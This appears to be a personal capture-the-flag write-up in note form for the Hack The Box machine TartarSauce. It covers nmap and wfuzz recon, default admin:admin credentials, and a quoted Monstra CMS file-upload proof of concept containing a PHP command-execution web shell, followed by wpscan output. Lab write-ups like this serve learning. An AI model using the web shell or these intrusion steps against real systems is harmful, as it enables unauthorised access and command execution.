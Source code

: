 # Recon

## nmap
I do my initial scan to see which ports are open.

```
# Nmap 7.92 scan initiated Tue Jul 19 17:34:35 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv tartarsauce.htb
Nmap scan report for tartarsauce.htb (10.129.73.76)
Host is up, received echo-reply ttl 63 (0.070s latency).
Scanned at 2022-07-19 17:34:35 CDT for 22s
Not shown: 64991 closed tcp ports (reset), 543 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jul 19 17:34:57 2022 -- 1 IP address (1 host up) scanned in 22.53 seconds
```

Our first scan only returns port 80 which is slightly unusual as I would at least expect port 22 open. Before I run the next beefier nmap scan, I do a udp scan on all ports just to make sure I am not missing anything.

```
# Nmap 7.92 scan initiated Tue Jul 19 17:35:19 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p80 tartarsauce.htb
Nmap scan report for tartarsauce.htb (10.129.73.76)
Host is up, received echo-reply ttl 63 (0.062s latency).
Scanned at 2022-07-19 17:35:20 CDT for 8s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-title: Landing Page
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 19 17:35:28 2022 -- 1 IP address (1 host up) scanned in 8.84 seconds
```


no wfuzz subdomains
fuzz -c -u http://tartarsauce.htb -H "Host: FUZZ.tartarsauce.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 128 | tee subdomains.out

![2c1401b74fae95323a2f89a1c34923b4.png](../_resources/2c1401b74fae95323a2f89a1c34923b4.png)

Plugins request?
![b90e714e5f972707cc150261e1d278e1.png](../_resources/b90e714e5f972707cc150261e1d278e1.png)

![c484c586ed6aa4362fdf3d9b70eb0a6d.png](../_resources/c484c586ed6aa4362fdf3d9b70eb0a6d.png)

admin:admin

api calls to Monstra.org
![2f908b910807241209a397a29793c325.png](../_resources/2f908b910807241209a397a29793c325.png)

"Monstra is a modern and lightweight Content Management System.
It is Easy to install, upgrade and use."

authenticated file upload monstra
![7c008932099843b471bf18a3c58bf0d9.png](../_resources/7c008932099843b471bf18a3c58bf0d9.png)

POC
```
proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

           <?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

webshell
![d10597afbb291e396766c249aa4ad40b.png](../_resources/d10597afbb291e396766c249aa4ad40b.png)

![e8ea1c2af02b164454b9822781d009d9.png](../_resources/e8ea1c2af02b164454b9822781d009d9.png)

![3fbe4168eb639646ef201d8cfb7bfad6.png](../_resources/3fbe4168eb639646ef201d8cfb7bfad6.png)

![acd75a5e86ab7e21ae8a6444e5969256.png](../_resources/acd75a5e86ab7e21ae8a6444e5969256.png)

![4d4ee446a4e82f6d0c0b24bf512cc79a.png](../_resources/4d4ee446a4e82f6d0c0b24bf512cc79a.png)

![cba4c19fa7d2849957b15568534516fa.png](../_resources/cba4c19fa7d2849957b15568534516fa.png)

![edec8b6f55015c0c485b2c0607aa5cc4.png](../_resources/edec8b6f55015c0c485b2c0607aa5cc4.png)

![51606385cb0e444dbe8048aef839624d.png](../_resources/51606385cb0e444dbe8048aef839624d.png)

http://tartarsauce.htb/webservices/wp/wp-login.php

![82b717813d67e690d468eacd21a01a57.png](../_resources/82b717813d67e690d468eacd21a01a57.png)

nothing really from `wpscan`

```
[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/index.php/feed/atom/, <generator uri="https://wordpress.org/" version="4.9.4">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-admin/load-styles.php, Match: '4.9.4'
 ```
 
 ![1cedec794b933e30a1411629c34dd233.png](../_resources/1cedec794b933e30a1411629c34dd233.png)